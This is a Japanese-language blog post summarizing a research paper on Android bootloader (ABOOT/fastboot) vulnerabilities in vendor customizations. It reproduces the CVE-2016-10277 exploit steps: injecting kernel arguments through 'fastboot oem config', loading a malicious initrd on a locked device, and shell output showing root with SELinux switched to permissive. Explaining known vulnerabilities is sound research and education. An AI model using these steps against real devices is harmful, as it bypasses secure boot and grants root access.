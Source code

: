 +++
title = "fastboot oem vuln:Android Bootloader Vulnerabilities in Vendor Customizations"
date = "2020-08-14"
tags = [
    "security",
    "paper",
]
+++

androidのブートローダ周りの脆弱性やファジングってどうやってるんだろうっての気になってたらこの論文を見つけました。

いつもどおり適当なのでちゃんと知りたかったら論文読んでください。

#### Introduction
androidではchain-of-trustを通してセキュアブートを実装している。

PBLが次のブートローダの真正性を検証してSBLが起動、SBLがABOOTを検証するというのを続ける。
簡単にするとPBL -> SBL -> ABOOT -> boot.imgみたいな感じで起動していくっぽい。

ABOOTには通常モードとfastbootモードの2つのモードがある。
ABOOTはOSの実行前に実行されているため脆弱性も重要な深刻度を持っている。

この論文では例をいくつか紹介する。

#### fastbootの起動
fastbootは様々な方法で起動できると言ってる。

- キーの組み合わせ
- USBデバッグを有効にした状態でadb reboot

キーの組み合わせっていうのは何を指してるのかよくわからなかったので調べてみた所、以下のドキュメントを見つけた。

https://source.android.google.cn/setup/build/running?hl=ja#booting-into-fastboot-mode

キーの組み合わせって言うのは物理キーの組み合わせの話らしい。

自分が持ってるPixel 3a XLだと音量小を押したまま電源を長押しすると起動できるっぽい。

太古の昔にTWRPを入れるために似たような操作をやっていたけど完全に失念していた。

#### ABOOTTOOL
OEMコマンドを発見するためにABOOTTOOLというファズツールを開発したらしい。
https://github.com/alephsecurity/abootool

これっぽい。

これによってメモリダンプ (ALEPH-2016000)などの脆弱性を発見できたと言ってる。

そして過去の脆弱性や今回見つかった脆弱性を4種類に分類して説明している。

- OSの完全性
- データの流失
- OSの隠れた機能
- ICに対する攻撃

今回はOSの完全性の辺りに焦点を当てて見てみる。

#### OSの完全性
いくつかあるっぽいけど今回はCVE-2016-10277に注目してみる。
```txt
$ fastboot oem config console "a foo=A "
$ fastboot oem config fsg-id "a bar=B"
$ fastboot oem config carrier "a baz=C"
[...]
shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: console=a foo=A ,115200,
    n8 earlyprintk androidboot.console=a foo=A  androidboot
    .hardware=shamu msm_rtb.filter=0x37 [...] androidboot.
    fsg-id=a bar=B androidboot.secure_hardware=1 [...]
    androidboot.carrier=a baz=C  androidboot.hard<
```
こんな感じでlinux kernelの起動オプションに任意の値を含めることが出来るっぽい。

これを利用して、initrdを用意してfastbootでflash, rdinitに自分のinitrdを指定して起動するというのをやっている。
flashっていう操作はなんだかロックされていると出来なさそうに思えるけどこれはロックしててもいけるらしい。

これ以外にも再起動後も保つ方法とかいろいろ書いてあったので興味ある人は自分で読んでみて。
```txt
$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending ’aleph’ (1482 KB)...
OKAY [  0.050s]
writing ’aleph’.
..(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished.
total time: 0.054s

$ fastboot continue
$ adb shellshamu:/ # id
uid=0(root) gid=0(root) groups=0(root),[...] context=u:r:su:s0
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```
